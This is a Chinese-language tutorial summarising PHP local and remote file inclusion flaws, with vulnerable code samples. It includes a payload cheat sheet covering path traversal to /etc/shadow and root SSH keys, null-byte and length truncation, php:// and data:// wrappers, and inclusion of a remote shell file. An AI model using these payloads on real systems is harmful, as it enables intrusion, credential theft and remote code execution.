 # PHP文件包含漏洞总结

0x00 前言
-------

* * *

PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。最常见的就属于本地文件包含（Local File Inclusion）漏洞了。

我们来看下面一段index.php代码:

```
if ($_GET['func']) {
   include $_GET['func'];
} else {
   include 'default.php';
}

```

程序的本意可能是当提交url为http://example.com/index.php?func=add.php时，调用add.php里面的样式内容和功能。直接访问http://example.com/index.php则会包含默认的default.php

那么问题来了，如果我们提交http://example.com/index.php?func=upload/pic/evil.jpg ，且evil.jpg是由黑客上传到服务器上的一个图片，在图片的末尾添加了恶意的php代码，那么恶意的代码就会被引入当前文件执行。

[![](http://static.wooyun.org/20141112/2014111204023183499.png)](http://drops.wooyun.org/wp-content/uploads/2014/11/file0001.png)

如果被包含的文件中无有效的php代码，则会直接把文件内容输出。

在接下来的内容中会以代码样本作为例子，来给大家介绍各种奇葩猥琐的利用姿势。

0x01 普通本地文件包含
-------------

* * *

```
<?php include("inc/" . $_GET['file']); ?>

```

*   包含同目录下的文件：  
    ?file=.htaccess
    
*   目录遍历：
    

?file=../../../../../../../../../var/lib/locate.db ?file=../../../../../../../../../var/lib/mlocate/mlocate.db

（linux中这两个文件储存着所有文件的路径，需要root权限）

*   包含错误日志： ?file=../../../../../../../../../var/log/apache/error.log （试试把UA设置为“”来使payload进入日志）
    
*   获取web目录或者其他配置文件：
    

?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf

（更多→http://wiki.apache.org/httpd/DistrosDefaultLayout）

*   包含上传的附件：

?file=../attachment/media/xxx.file

*   读取session文件：

?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7

（session文件一般在/tmp目录下，格式为sess_[your phpsessid value]，有时候也有可能在/var/lib/php5之类的，在此之前建议先读取配置文件。在某些特定的情况下如果你能够控制session的值，也许你能够获得一个shell）

*   如果拥有root权限还可以试试读这些东西：

/root/.ssh/authorized_keys

/root/.ssh/id_rsa

/root/.ssh/id_rsa.keystore

/root/.ssh/id_rsa.pub

/root/.ssh/known_hosts

/etc/shadow

/root/.bash_history

/root/.mysql_history

/proc/self/fd/fd[0-9]* (文件标识符)

/proc/mounts

/proc/config.gz

*   如果有phpinfo可以包含临时文件：

参见http://hi.baidu.com/mmnwzsdvpkjovwr/item/3f7ceb39965145eea984284el

0x02 有限制的本地文件包含
---------------

* * *

```
<?php include("inc/" . $_GET['file'] . ".htm"); ?> 

```

*   %00截断：

?file=../../../../../../../../../etc/passwd%00

(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)

*   %00截断目录遍历：

?file=../../../../../../../../../var/www/%00

(需要 magic_quotes_gpc=off，unix文件系统，比如FreeBSD，OpenBSD，NetBSD，Solaris)

*   路径长度截断：

?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.

(php版本小于5.2.8(?)可以成功，linux需要文件名长于4096，windows需要长于256)

*   点号截断：

?file=../../../../../../../../../boot.ini/………[…]…………

(php版本小于5.2.8(?)可以成功，只适用windows，点号需要长于256)

0x03 普通远程文件包含
-------------

* * *

```
<?php include($_GET['file']); ?>

```

*   远程代码执行：

?file=[http|https|ftp]://example.com/shell.txt

(需要allow_url_fopen=On并且 allow_url_include=On)

*   利用php流input：

?file=php://input

(需要allow_url_include=On，详细→http://php.net/manual/en/wrappers.php.php)

*   利用php流filter：

?file=php://filter/convert.base64-encode/resource=index.php

(同上)

*   利用data URIs：

?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=

(需要allow_url_include=On)

*   利用XSS执行任意代码：

?file=http://127.0.0.1/path/xss.php?xss=phpcode

(需要allow_url_fopen=On，allow_url_include=On并且防火墙或者白名单不允许访问外网时，先在同站点找一个XSS漏洞，包含这个页面，就可以注入恶意代码了。条件非常极端和特殊- -)

0x04 有限制的远程文件包含
---------------

* * *

```
<?php include($_GET['file'] . ".htm"); ?> 

```

*   ?file=http://example.com/shell
    
*   ?file=http://example.com/shell.txt?
    
*   ?file=http://example.com/shell.txt%23
    

(需要allow_url_fopen=On并且allow_url_include=On)

*   ?file=\evilshare\shell.php (只需要allow_url_include=On)

0x05 延伸
-------

* * *

其实在前面也说了，这些漏洞产生原因是PHP函数在引入文件时，传入的文件名没有经过合理的校验，从而操作了预想之外的文件。实际上我们操作文件的函数不只是include()一个，上面提到的一些截断的方法同样可以适用于以下函数：

[![](http://static.wooyun.org/20141112/2014111204023129613.png)](http://drops.wooyun.org/wp-content/uploads/2014/11/file0002.png)

参考文章:

http://websec.wordpress.com/2009/11/28/freebsd-directory-listing-with-php-file-functions/

http://www.digininja.org/blog/when_all_you_can_do_is_read.php

http://wiki.apache.org/httpd/DistrosDefaultLayout

http://ddxhunter.wordpress.com/2010/03/10/lfis-exploitation-techniques/

http://www.coresec.org/2011/05/12/local-file-inclusion-to-remote-command-execution-using-ssh/

http://www.ush.it/2009/02/08/php-filesystem-attack-vectors/

http://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/

http://diablohorn.wordpress.com/2010/01/16/interesting-local-file-inclusion-method/
